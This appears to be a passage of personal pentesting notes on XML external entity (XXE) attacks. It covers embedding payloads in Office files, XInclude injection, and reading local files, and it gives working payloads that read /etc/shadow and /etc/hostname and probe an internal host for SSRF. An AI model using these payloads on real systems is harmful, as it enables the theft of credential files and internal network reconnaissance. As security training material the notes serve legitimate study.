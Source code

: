 ##### Microsoft files
Documents of Microsoft Word, presentations of PowerPoints, and sheets of Excel are archival files that contain xml files so you can also place XXE payload in them. You have to first extract files of document. You can use **Unarchiver** to do so. You should see some XML files after doing so. Then you can just place payload into the file. At last pack files back into corresponding file type. To zip them up you can use following commands:
``zip -r new_example.docx *

#### 5th Step
Sometimes you can't control entire XML document and edit its DTD definition. You can still exploit XXE if the application collects input data from user and on backend it inserts it into XML documents. In this situation instead of doing above you can perform XInclude attack. 
**XInclude** is a specific functionality of an XML language, which builds new XML document from one tag of XML called xi:include. If you can control even small fragment of non-sanitized data parsed to XML you can place there your XInclude attack.

To perform XInclude input payload from below to input point and observe if the server will return requested file.
```
<example xmlns:xi="http://www.w3.org/2001/XInclude">
	<xi:include parse="text" href="file:///etc/hostname"/>
</example>
```


### **Escalation**
Escalation of this vulnerability is based on what vulnerable XML parser is allowed to do. Generally speaking you can force it to retrieve system files, source code, list of directories and for exfiltration. By using XXE you can also perform SSRF in order to scan internal network and such. Sometimes it can be used for DoS.

##### Reading Files
To read local files using XXE, just input path of local file in definition of DTD in parsed XML file. To gain access to local files you have to use following URL address scheme: ``file://path/to/file
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [
	<!ENTITY file SYSTEM "file:///etc/shadow">
]>
<example>&file;</example>
```

##### SSRF
You can also try to launch SSRF by using XXE. You can try port scanning just like in [[SSRF]] attacks:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [
	<!ENTITY file SYSTEM "http://10.0.0.1:80">
]>
<example>&file;</example>
```
